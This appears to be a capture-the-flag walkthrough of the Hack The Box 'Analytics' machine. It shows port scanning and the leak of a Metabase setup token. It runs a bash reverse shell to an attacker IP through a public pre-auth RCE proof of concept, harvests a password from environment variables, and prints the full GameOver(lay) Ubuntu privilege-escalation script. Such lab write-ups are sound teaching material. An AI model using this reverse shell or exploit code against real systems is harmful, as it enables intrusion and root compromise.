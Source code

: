 ```yaml
---
layout: post
author: H4
---
```


![banner](/images/htb_analytics_banner.png)  

# discovery
## port scan
```bash
$ nmap -Pn 10.10.11.233    
Nmap scan report for 10.10.11.233
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Target domain is called `analytical.htb`. After adding the domain to our `/etc/hosts` file we have a closer look at the website and see that there is a login link on the top right which leads to `data.analytical.htb`. Lets add this domain to the `/etc/hosts` file too.

![login](/images/htb_analytics_metabase.png)  
The software `Metabase` seems to be in use here.
# exploitation
Googling for exploits for `Metabase` reveals an RCE CVE where a PoC can be found on Github: `https://github.com/m3m0o/metabase-pre-auth-rce-poc.`  
  
To use this exploit we need the `setup-token` which can be found in the `/api/session/properties` resource.
```http
GET /api/session/properties HTTP/1.1
Host: data.analytical.htb
Accept: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: application/json
Referer: http://data.analytical.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: metabase.DEVICE=964c404f-2737-4b9b-803c-328dab954e07
Connection: close

HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 31 Oct 2023 19:37:53 GMT
...
"setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
...
```

Now we can forge our attack.  
Start a listener on the attacker machine.
```bash
$ nc -lvp 443
listening on [any] 443 ...
```

Execute the attack
```bash
$ python3 main.py -u http://data.analytical.htb -t '249fa03d-fd94-4d5b-b94f-b4ebf3df681f' -c 'bash -i >& /dev/tcp/10.10.14.25/443 0>&1' 
```

Catch connection from target
```
$ nc -lvp 443
listening on [any] 443 ...
connect to [10.10.14.25] from analytical.htb [10.10.11.233] 33288
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
cecce825ebf5:/$ whoami
whoami
metabase
```

> We got a shell!
{: .prompt-info }

# post exploitation
## get `ssh` access
Executing `linpeas.sh` on the target reveals the system environment which leaks credentials.
```bash
cecce825ebf5:/tmp$ sh l.sh
sh l.sh
...
HISTFILESIZE=0                                                                                                                                                                                                                              
MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=cecce825ebf5
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
OLDPWD=/
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
HISTSIZE=0
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/tmp
HISTFILE=/dev/null
MB_DB_FILE=//metabase.db/metabase.db
...
```

> Identified credentials: `metalytics:An4lytics_ds20223#`
{: .prompt-info }

## get user flag
```bash
metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt 
8*****************************f
```

## privilege escalation
Reviewing `linpeas.sh` again shows that `Ubuntu 22.04.3 LTS` is the operating system.  
Googling gives us an privilege escalation exploit: `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main`

Content of exploit file.
```bash
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Just upload this this script to the target and execute it to get `root` access.
```bash
metalytics@analytics:/tmp$ sh lpe.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/
```

> We got `root`!
{: .prompt-info }

## get second flag
```bash
root@analytics:/tmp# cd /root
root@analytics:/root# ls
root.txt
root@analytics:/root# cat root.txt
9***************************6
```

Pwned! <@:-)
